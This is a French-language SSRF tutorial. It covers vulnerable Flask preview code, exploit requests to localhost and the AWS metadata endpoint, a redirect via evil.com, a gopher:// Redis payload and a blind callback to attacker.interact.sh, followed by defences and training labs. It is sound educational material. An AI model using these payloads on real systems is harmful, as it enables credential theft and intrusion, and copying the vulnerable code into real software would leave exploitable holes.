 #  Faille SSRF – Server-Side Request Forgery

## Définition

> La SSRF permet à un attaquant de **forcer le serveur à envoyer une requête HTTP** (ou autre protocole) vers **une cible choisie**, souvent interne ou sensible. Elle survient lorsqu’une application web accepte une URL externe et la consomme côté serveur **sans validation adéquate**.

---

## 🟢 Niveau 1 – SSRF simple (ex : preview d’URL)

### Cas réel : Fonction de "preview de lien" (blog, CMS, forums)

Des plateformes comme **Mattermost** ou **GitLab (CVE-2021-22214)** utilisaient une fonction de "rich preview" basée sur une URL utilisateur.

### Exemple de code vulnérable :

```python
@app.route("/preview")
def preview():
    url = request.args.get("url")
    res = requests.get(url)
    return res.text
```

### Exploitation :

```
GET /preview?url=http://127.0.0.1:8000/admin
```

### Résultat :

L’attaquant lit des pages non exposées au public, ex. : admin, Grafana, Prometheus, services internes Docker...

---

## 🟡 Niveau 2 – Redirection contrôlée (CVE-2019-6340 - Drupal)

### Contexte :

Des protections existent contre `localhost`, mais pas contre les **redirections HTTP 3xx**. L’attaquant contrôle un domaine qui redirige vers une cible locale.

### Exemple :

```
http://evil.com/redirect => 302 Location: http://127.0.0.1:8080/secret
```

### Exploitation :

```
GET /preview?url=http://evil.com/redirect
```

### Impact :

Contourne une liste de blocage naïve via un domaine intermédiaire. Très utilisé en pentest via Burp Collaborator ou interact.sh.

---

## 🟠 Niveau 3 – SSRF via paramètres indirects (Avatar URL, Webhook)

### Cas réel : Slack webhook, GitHub webhooks, Dropbox import URL

Une fonction d’import d’avatar ou webhook accepte une URL contrôlée par l’utilisateur :

```json
POST /user/avatar
{
  "url": "http://169.254.169.254/latest/meta-data/"
}
```

### Impact :

Extraction de données sensibles (AWS IAM credentials, configuration d’instance EC2, etc.).

### Vulnérabilités similaires :

* Capital One breach (via SSRF → metadata AWS)
* CVE-2021-3129 Laravel debug + SSRF → RCE

---

## 🔴 Niveau 4 – SSRF vers protocoles internes (Redis, Gopher)

### Cas réel : GitHub Enterprise (via Gopher)

GitHub Enterprise acceptait des requêtes `gopher://` internes menant à une attaque Redis.

### Exemple d’URL :

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%24%34%0D%0Ainfo%0D%0A
```

### Impact :

Injection de commande dans Redis, Memcached ou Elasticsearch. Possibilité d’élever les privilèges ou exécuter du code.

### Exemples réels similaires :

* SSRF vers Gopher pour injecter `flushall` dans Redis
* SSRF → MongoDB non-authentifié (port 27017)

---

## 🔴 Niveau 5 – Blind SSRF (cas AWS, GCP, Azure)

### Cas réel :

L’attaquant ne voit **aucune réponse directe**, mais provoque une action observable : appel DNS, log de requête, exfiltration de données, notification, etc.

### Exemple :

```json
POST /webhook/register
{
  "callback_url": "http://attacker.interact.sh"
}
```

### Impact :

SSRF détectable uniquement via **serveurs de réception externe** (Burp Collaborator, DNSlog.cn, interact.sh).

### Cas réels :

* Atlassian Jira : webhook SSRF → exfiltration
* SSRF dans Google Cloud Functions via Cloud Scheduler

---

## Défenses efficaces contre les SSRF

| Niveau | Technique                             | Description                                                               |
| ------ | ------------------------------------- | ------------------------------------------------------------------------- |
| 🟢     | Liste blanche stricte                 | N’autoriser que des domaines/chemins connus, pas de `*` ou IP             |
| 🟡     | Blocage des IP internes               | Refuser toute requête vers `127.0.0.0/8`, `10.0.0.0/8`, `169.254.169.254` |
| 🟠     | Désactiver les redirections           | `requests.get(url, allow_redirects=False)`                                |
| 🔴     | Firewall egress / segmentation réseau | Les apps n’ont **pas besoin d’accès complet à Internet**                  |
| 🔴     | Contrôle de protocole                 | Refuser `file://`, `gopher://`, `ftp://`, etc.                            |

---

## Simulation locale en Flask

### Exemple `app.py` SSRF vulnérable :

```python
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route("/preview")
def preview():
    url = request.args.get("url")
    r = requests.get(url)
    return r.text
```

### Lancer un faux service cible :

```bash
python3 -m http.server 8000 --bind 127.0.0.1
```

### Tester :

```
http://localhost:5000/preview?url=http://127.0.0.1:8000
```

---

## Environnements d'entraînement recommandés

* [PortSwigger Academy – SSRF Labs](https://portswigger.net/web-security/ssrf)
* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [Vulhub – SSRF Docker Labs](https://github.com/vulhub/vulhub/tree/master/ssrf)
* `interact.sh` pour tests SSRF blind
